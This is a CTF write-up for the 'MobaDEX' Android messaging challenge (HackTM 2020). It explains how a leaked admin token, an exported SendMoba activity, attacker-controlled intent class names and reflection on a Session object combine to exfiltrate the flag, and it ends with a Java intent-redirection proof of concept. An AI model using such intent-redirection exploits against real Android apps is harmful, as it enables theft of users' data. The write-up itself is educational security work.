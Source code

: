# MobaDEX

- CTF: **HackTM CTF Finals 2020**
- Difficulty: **Medium**
- Challenge Files: 
- Challenge Page: 

# Writeup

- Description: **It's december, HackTM CTF is rolling, what a time to make new friends. Hop on and join the latest and hottest Android Messaging Service: MobaDEX. MobaDEX allows you to make friends with other CTF players exchange Mobs in a very well-secured environment. It is prohibited to exchange flags.**

- Introduction: By simply running the application on a mobile device, we can get a very good overview of the application. It is an Android Messaging Application, based on a concept similar to Snapchat. The application allows the user to `Register an Account`, `Autenthicate`, `Add Friends`, `Write Moba` and `Read Moba` (the term `Moba` is being used to name the message that is being transferd from one account to another).

- Analysis: 
  * Now that we know what the application is about, let's take a look at how the application works. Looking at the `AndroidManifest.xml` file, we can see that there are multiple Activities declared: `.ProcessMoba`, `.SendMoba`, `.ui.main.ShowMoba`, `.LoginActivity`, `.RegisterActivity`, `.MainActivity`. Somthing that is particularly interesting is that only `RegisterActivity`, `LoginActivity`, and `SendMoba` activities are being exported. We will keep that in mind.
  * Looking at the `RegisterActivity`, we can see that it takes the input from the input fields (name / email / password) and passes it via a `POST` request to: `http://35.246.216.38:8686/api.php`. So the application is using an `API` server to handle the accounts and messages.
  * Now let's take a look at the `SendMoba` Acitvity, after all, the exported activities are some of the easiest entrypoint in the application. We can see that the application gets an `intent` and is expecting to contain `moba_user_token`, `moba_friend_token` and `moba_data` extras. The data is being sent to `do_send_moba` which uses a custom serialization method to encode the `moba_data` intent and then alongside user's token and friend's token send the data to the server. But what is a token? We can see that there is a class called `Session` which has the following structure:
  ```java
  public class Session {

      private String Flag = "HackTM{local_flag}";
      private String token;
      private static Session instance = null;

      protected Session() {
          this.token = "";
      }
      public String getToken(){
          return this.token;
      }
      public String getFlag(){ return this.Flag; }
      public void setToken(String token){
          this.token = token;
      }

      public static Session getInstance() {
          if(instance == null) {
              instance = new Session();
          }
          return instance;
      }
  }
  ```
  So the application holds user's token inside a singleton class called `Session`.
  * Let'stake a look at the `Add Friend` Activity. It looks pretty standard, takes an username and send it to the API server alongside user's token. However, something that later comes into our eyes is an if statement:
  ```java
  if(friend_username.equals("Admin_FeDEX")){
    updateTextView("Cannot add Admin!");
    Log.d("[MobaDEX]", myResponse);
  }
  ```
  So we can see that we are not allowed to add the user `Admin_FeDEX` as a friend. However, trying to add `Admin_FeDEX` as a friend and printing out the logs will display something interesting: 
  ```log
  2020-12-15 21:05:06.904 3012-3012/com.example.mobadex D/[MobaDEX]: 682314393318725
  ```
  This is the admin's token. So although we cannot the admin to our friends list, we are still able to send him a `Moba` by invoking the `SendMoba` activity and put the admin's token inside `moba_friend_token`.
  * We will keep that in mind, and analyze the last main component: `ReadMobaFragment`. It makes a call to the API and loads all the `Mobs` of the user with the token specified in the parameter. Then it sets an `onClick`listener where the `data` and the `id` of the `Moba` is being sent over to the `ProcessMoba` class. Inside the `ProcessMoba` we can see that data is being deserialized and the `moba_display_class` and `moba_display_package` and `moba_display_content` extras are being extracted. Then the information is being stored inside an intent as follows:
  ```java
  Intent intent = new Intent();
  intent.setClassName(moba_package, moba_class);
  intent.putExtra("display_content",moba_content);
  intent.putExtra("display_id",moba_id);
  ```
  This piece of code is very interesting because it sets the `ClassName` to a value that we can control by sending a custom `Moba`. We will keep that as well in mind. After that, there are some extra checks to see if some other extras are present inside the bundle. One thing that stands out is:
  ```java
  if(data.getString("moba_data") != null){
    String get_session_method = data.getString("moba_data");
    String extra_data = "";
    try {
        Method method = sess.getClass().getMethod(get_session_method);
        extra_data = (String)method.invoke(sess);
    } catch (SecurityException e) {
        Log.d("[MobaDEX]","Error:" + e);
        finish();
    }
  ...
  ```
  This piece of code allows us to get our own token if we supply the string `getToken` inside `moba_data`. But at the same time, if we put `getFlag` we are able to read `session.Flag`.
  
- Exploitation
  * With the final discovery, everything is clear. We need to start the `SendMoba` activity and make sure that the `Moba` is being sent to the Admin. Then, we would like instead of `ShowMoba` (which is the default class used when reading a Moba) to use `SendMoba` in order to be able to send the flag back to us. Then we will put the value "getFlag" inside `moba_data` and we're done.
  * 
  ```java
  @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        // EXPLOIT POC
        Intent i = new Intent();

        i.setComponent(new ComponentName("com.example.mobadex","com.example.mobadex.SendMoba"));

        Intent intent_data = new Intent();
        intent_data.putExtra("moba_display_content","PWNED by FeDEX"); // data that will be printed
        intent_data.putExtra("moba_display_package", "com.example.mobadex"); // PACKAGE
        //  intent_data.putExtra("moba_display_class","com.example.mobadex.ui.main.ShowMoba"); // CLASS
        intent_data.putExtra("moba_display_class","com.example.mobadex.SendMoba"); // CLASS
        intent_data.putExtra("moba_user_token","682314393318725"); // VICTIM (send back from admin to me)
        intent_data.putExtra("moba_friend_token","538622981120038"); // ATTACKER
        intent_data.putExtra("moba_data","getFlag"); // function to trigger

        i.putExtra("moba_user_token","538622981120038"); // ATTACKER (send malicious payload from me to admin)
        i.putExtra("moba_friend_token","682314393318725"); // VICTIM
        i.putExtra("moba_data",intent_data);

        startActivity(i);
    }
  ```
 
 - Conclusion
